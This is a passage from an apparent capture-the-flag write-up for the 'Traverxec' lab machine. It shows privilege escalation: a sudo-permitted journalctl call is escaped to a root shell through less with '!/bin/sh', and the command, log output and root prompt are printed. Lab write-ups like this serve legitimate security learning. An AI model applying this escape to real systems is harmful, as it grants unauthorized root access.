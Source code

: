 The interesting part of this is the sudo command running the program journalctl. This is a program that interacts with journald a daemon \(service\) that manages the journals \(logs\) generated by systemd on a Linux system. The script is displaying the contents of server-stats.head, then doing the "uptime" command which shows the current time, how long the system has been running and the number of users logged onto the system. The ss command will list the open sockets connected to the web server on port 80 and then count the number of lines in the output using wc -l. Finally, the sudo command is running journalctl which is listing the last 5 entries of the logs for the web server nostromo.service.

Since we can run journalctl using sudo, we can look at GTFObins and find that journalctl uses less when the content is longer than a single page. Less is a program on Linux that will break content into pages and allows vi commands to search for content as well as dropping into an interactive shell with !/bin/sh command. Journalctl does not drop the sudo privileges when running less and so it is possible to drop to an elevated shell very simply by running:

```bash
david@traverxec:~/bin$ /usr/bin/sudo /usr/bin/journalctl \
 -n5 -unostromo.service
-- Logs begin at Mon 2020-12-28 EST, end at Tue 2020-12-29 
Dec 29 07:15:25 traverxec crontab[2738]: (www-data) 
 LIST (www-data)
Dec 29 07:17:38 traverxec sudo[8915]: pam_unix(sudo:auth): 
 authentication failure; logname= uid=33 euid=0 
  tty=/dev/pts/0 ruser=www-data rhost= user=w
Dec 29 07:17:40 traverxec sudo[8915]: pam_unix(sudo:auth): 
 conversation failed
Dec 29 07:17:40 traverxec sudo[8915]: pam_unix(sudo:auth): 
 auth could not identify password for [www-data]
Dec 29 07:17:40 traverxec sudo[8915]: www-data : 
 command not allowed ; TTY=pts/0 ; PWD=/dev/shm ; 
 USER=root ; COMMAND=list
!/bin/sh
# whoami
root
```

